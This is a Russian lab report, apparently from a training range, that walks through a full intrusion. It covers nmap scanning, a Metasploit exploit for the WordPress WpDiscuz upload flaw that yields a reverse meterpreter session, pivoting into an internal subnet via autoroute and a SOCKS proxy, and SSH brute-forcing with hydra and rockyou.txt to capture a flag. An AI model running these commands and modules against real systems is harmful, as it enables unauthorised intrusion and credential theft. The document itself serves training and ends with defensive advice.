










## Введение

### Актуальность

Защита сегмента автоматизированной системы управления технологическими процессами (АСУ ТП) является одной из ключевых задач обеспечения информационной безопасности промышленных предприятий. Компрометация DNS-сервера позволяет злоумышленнику перенаправлять трафик, внедряться в доверенные соединения и получать доступ к критически важным узлам инфраструктуры. В связи с этим изучение методов обнаружения, анализа и устранения последствий компьютерных атак на DNS-инфраструктуру представляется крайне важным.

### Цель работы

Изучить методы обнаружения, анализа и устранения последствий компьютерных атак на сегмент АСУ ТП, а также приобрести практические навыки выявления и устранения уязвимостей в корпоративной инфраструктуре. В рамках данной работы целью является получение доступа к внутреннему DNS-серверу и поиск флага в файле hosts.

### Задачи

В ходе выполнения лабораторной работы необходимо:
* изучить сценарий атаки на сегмент АСУ ТП;
* выявить используемые злоумышленником уязвимости;
* устранить обнаруженные уязвимости;
* ликвидировать последствия компрометации узлов инфраструктуры;
* провести анализ событий информационной безопасности.

## Выполнение лабораторной работы

### Разведка и выбор атакуемого узла

Предварительно необходимо произвести атаку на доступный хост, находящийся во внешнем сегменте (промежуточный узел), после чего прописать маршрут до внутренней сети организации. Для этого могут использоваться различные векторы атаки.

Перед началом атаки проведем разведку сканированием. Для сканирования будем использовать утилиту `nmap`. Выполним команду:

`nmap -sV -sC 195.239.174.0/24`

Применяемые флаги: `-sV` (Version detection) – определяет версии служб и приложений на открытых портах; `-sC` (Script default) – запускает скрипты из категории default Nmap Scripting Engine (NSE).

{#fig-001 width=100%}

В результате сканирования обнаружено, что сервер с адресом `195.239.174.25` содержит открытый 80 порт (http), на котором располагается веб-портал `portal.ampere.corp`. Также на хосте `195.239.174.25` открыты порты 443 (ssl/http) и 8888 (http), обслуживаемые nginx.

Поскольку DNS-сервер при сканировании не обнаружен, то для перехода на сайт портала организации по доменному имени необходимо добавить статическую запись в файл `/etc/hosts`.

{#fig-002 width=100%}

В файл `/etc/hosts` была добавлена запись, сопоставляющая IP-адрес `195.239.174.25` доменному имени `portal.ampere.corp`.

Сайт работает на CMS WordPress, поэтому для поиска возможных векторов атаки можно произвести сканирование с помощью модуля Metasploit `wordpress_scanner`. Для этого необходимо запустить фреймворк Metasploit.

{#fig-003 width=100%}

Для исследования CMS WordPress на уязвимости необходимо выбрать подходящий модуль сканирования. Поиск подходящего модуля сканирования осуществляется с помощью команды `search wordpress scanner`.

{#fig-004 width=100%}

Наиболее подходящим под требуемые задачи является модуль `auxiliary/scanner/http/wordpress_scanner`. Для выбора данного модуля используется команда `use 40`. Для правильной настройки модуля отобразим настраиваемые параметры с помощью команды `options`.

{#fig-005 width=100%}

Для настройки модуля сканирования нужно задать параметр `rhost`, который определяет цель сканирования. В данном случае цель – `portal.ampere.corp`. Настройка производится с помощью команды `set rhost portal.ampere.corp`. После настройки модуль запускается с помощью команды `run`.

{#fig-006 width=100%}

В результате сканирования были обнаружены следующие плагины: duplicator (v1.3.26), elementor (v3.11.0), wpdiscuz (v7.0.2), wp-essential (v5.7.1), wp-file-manager (v7.1.2). Анализ показал, что WpDiscuz содержит уязвимость, которая может привести к удаленному выполнению кода.

### Эксплуатация уязвимости плагина WpDiscuz

Для получения meterpreter-сессии с корпоративным сайтом рассмотрим вариант эксплуатации уязвимости плагина WpDiscuz с помощью модуля `wp_wpdiscuz_unauthenticated_file_upload`. Осуществить поиск нужного эксплойта можно с помощью команды `search wpdiscuz exploit`.

{#fig-007 width=100%}

В консоли Metasploit отображается единственный найденный модуль `unix/webapp/wp_wpdiscuz_unauthenticated_file_upload`. Если выбрать модуль, то дополнительная информация по модулю будет доступна с помощью команды `options`.

{#fig-008 width=100%}

Данный модуль может быть использован для эксплуатации плагина WpDiscuz версии более ранней, чем 7.0.5. Для эксплуатации уязвимости потребуется IP-адрес атакуемой машины (`RHOSTS`) и ссылка на любой пост с возможностью комментирования (`BLOGPATH`). Ссылку на пост можно получить в браузере при просмотре записи после перехода в раздел Recent posts с главной страницы портала организации.

{#fig-009 width=100%}

Таким образом, для атаки необходимо установить следующие значения параметров:
`set rhosts 195.239.174.25`
`set blogpath /index.php/2021/07/26/hello-world/`
`set lhost 195.239.174.125`

В результате запуска модуля (команда `run`) будет получена meterpreter-сессия от имени пользователя `www-data`.

{#fig-010 width=100%}

После получения meterpreter-сессии с промежуточным узлом можно переходить к процедуре поиска DNS-сервера. С помощью команды `sysinfo` проверим, какая операционная система установлена на узле. В данном случае – это ОС Linux.

### Поиск DNS-сервера

Чтобы найти во внешней подсети DNS-сервер и атаковать его, предварительно необходимо выполнить проброс портов во внутреннюю сеть и настроить прокси-сервер, через который будет проходить трафик.

#### Повышение стабильности сессии

В текущей сессии для взаимодействия с узлом `195.239.174.25` в качестве полезной нагрузки используется PHP-скрипт. Для дальнейшего проведения атаки необходимо повысить стабильность сессии – сделать апгрейд. Команда `sessions -u <ID сессии>` выполняет апгрейд сессии, заменяя полезную нагрузку на более стабильную.

{#fig-011 width=100%}

После выполнения команды `sessions -u 1` была создана новая сессия с более стабильной полезной нагрузкой.

#### Проброс портов и настройка прокси

Целевой адрес искомого узла (DNS-сервера) находится во внутренней подсети организации. Анализ выполнения команд (`ipconfig` и `route`) демонстрирует, что внутренняя сеть организации – это `10.10.10.0/24`. Для поиска в данной сети DNS-сервера предварительно проведем сканирование всех доступных в сети хостов с помощью модуля `Multi Gather Ping Sweep`.

{#fig-012 width=100%}

Для запуска модуля из meterpreter используется команда `run post/multi/gather/ping_sweep rhosts=10.10.10.0/24`. В результате были обнаружены активные хосты: `10.10.10.15`, `10.10.10.20`, `10.10.10.30` и другие.

Так как подсеть недоступна напрямую, для доступа к ней понадобится туннель. Создать туннель можно с помощью модуля `autoroute`. Данный модуль добавляет маршруты через установленную meterpreter-сессию, позволяя взаимодействовать с подсетями, которые недоступны напрямую.

{#fig-013 width=100%}

Для добавления маршрута используется команда `run autoroute -s 10.10.10.0/24`. Далее необходимо настроить прокси-сервер, через который будут проходить все запросы при сканировании. Для настройки используется модуль `auxiliary/server/socks_proxy`. Основные параметры модуля должны совпадать с конфигурационным файлом `/etc/proxychains4.conf`. После настройки и запуска прокси-сервера можно переходить к процедуре идентификации DNS-сервера.

#### Поиск DNS-сервера

Для поиска DNS-сервера будем использовать инструмент `proxychains`, который запустим в другом терминале. Просканируем по очереди узлы из ARP-таблицы. Для поиска DNS-сервера будем искать в первую очередь открытый 53 порт.

{#fig-014 width=100%}

Сканирование с помощью `proxychains nc -zv 10.10.10.15 53` и `proxychains nc -zv 10.10.10.20 53` показало, что на обоих хостах открыт 53 порт.

{#fig-015 width=100%}

Для получения более детальной информации воспользуемся командой `proxychains nmap -sT -Pn -n 10.10.10.15 10.10.10.20 --top-ports 50 -open`. Результаты сканирования демонстрируют, что хост `10.10.10.15` имеет открытые порты 22 (SSH) и 53 (DNS), что позволяет идентифицировать его как DNS-сервер. Хост `10.10.10.20` имеет открытые порты 53, 135, 139, 445, 3389, что характерно для контроллера домена.

### Атака на DNS-сервер

Поскольку искомый DNS-сервер имеет открытый 22 порт, реализуем атаку перебором по SSH. Используем логин `user` и словарь `rockyou.txt`.

#### Брутфорс с помощью инструмента hydra

Проверим доступность цели через прокси с помощью инструмента netcat: `proxychains nc -zv 10.10.10.15 22`.

{#fig-016 width=100%}

Запустим утилиту hydra через прокси (proxychains):

`proxychains hydra -V -f -l user -P /usr/share/wordlists/rockyou.txt -t 1 10.10.10.15 ssh`

{#fig-017 width=100%}

В результате выполнения команды найден пароль `california101` для пользователя `user`.

#### Брутфорс с помощью Metasploit

Для осуществления брутфорс-атаки используем модуль Metasploit `auxiliary/scanner/ssh/ssh_login`.

{#fig-018 width=100%}

Для нормальной работы модуля требуется выполнить следующие настройки:
`set BRUTEFORCE_SPEED 3`
`set VERBOSE true`
`set THREADS 1`
`set PASS_FILE /usr/share/wordlists/rockyou.txt`
`set USERNAME user`
`set RHOSTS 10.10.10.15`

{#fig-019 width=100%}

В результате работы модуля была получена shell-сессия, которую можно активировать. В выводе видно, что был успешно подобран пароль `california101`.

### Получение флага

Для получения флага подключимся к серверу `10.10.10.15` по SSH, используя найденные учетные данные.

{#fig-020 width=100%}

После успешного подключения мы попадаем в домашний каталог пользователя `user` на DNS-сервере. Для получения флага необходимо вывести содержимое файла `/etc/hosts`.

{#fig-021 width=100%}

В файле `/etc/hosts` обнаружен флаг: `flag: 39471`.

{#fig-022 width=100%}

{#fig-023 width=100%}

В файле `/etc/hosts` обнаружен флаг: `flag: 39471`.

## Результаты

В ходе выполнения работы были получены следующие результаты:
* Проведена разведка внешней сети, обнаружен веб-портал на базе CMS WordPress.
* Получена meterpreter-сессия на промежуточном узле (Linux) через уязвимость плагина WpDiscuz.
* Выполнен проброс портов и настроен прокси-сервер для доступа к внутренней сети `10.10.10.0/24`.
* Идентифицирован DNS-сервер по адресу `10.10.10.15`.
* Осуществлен брутфорс SSH-сервиса DNS-сервера, подобраны учетные данные: логин `user`, пароль `california101`.
* Получен доступ к DNS-серверу и найден флаг в файле `/etc/hosts`: `flag: 39471`.

## Заключение

В ходе выполнения лабораторной работы были достигнуты следующие результаты:
* Достигнута поставленная цель: получен доступ к внутреннему DNS-серверу и найден флаг.
* Получены практические навыки разведки сети, эксплуатации уязвимостей CMS WordPress, настройки туннелирования трафика и брутфорса учетных данных.
* Выявлена необходимость своевременного обновления программного обеспечения и использования сложных паролей для защиты критически важных узлов инфраструктуры.
* Рекомендуется ограничить доступ к SSH-сервису DNS-сервера, использовать ключи вместо паролей и настроить системы обнаружения вторжений.
